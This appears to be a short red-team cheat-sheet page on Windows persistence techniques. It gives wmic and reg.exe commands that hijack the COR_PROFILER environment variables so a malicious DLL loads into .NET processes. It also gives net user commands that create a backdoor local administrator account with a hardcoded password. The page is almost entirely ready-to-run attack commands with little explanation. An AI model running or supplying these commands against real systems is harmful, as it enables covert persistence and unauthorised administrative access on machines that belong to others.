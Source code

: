 # Persistence





### COR Profiler Variable Hijack

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

{% code overflow="wrap" %}
```powershell
# deleting existing COR_PROFILER variable
wmic ENVIRONMENT where "name='COR_PROFILER'" delete

# creating COR_ENABLE_PROFILING variable and setting it to 1
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="<system>",VariableValue="1"

# creating a new COR_PROFILER variable
wmic ENVIRONMENT create name="COR_PROFILER",username="<system>",VariableValue="<arbitrary CLSID>"

# adding registry keys for malicious DLL
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /VE /T REG_SZ /D "<malicious_DLL>" /F
```
{% endcode %}

### Local Administrator Account Creation

```
net user burmat BURMAT123123123 /add
net localgroup administrators burmat /add 
net localgroup administrators
```



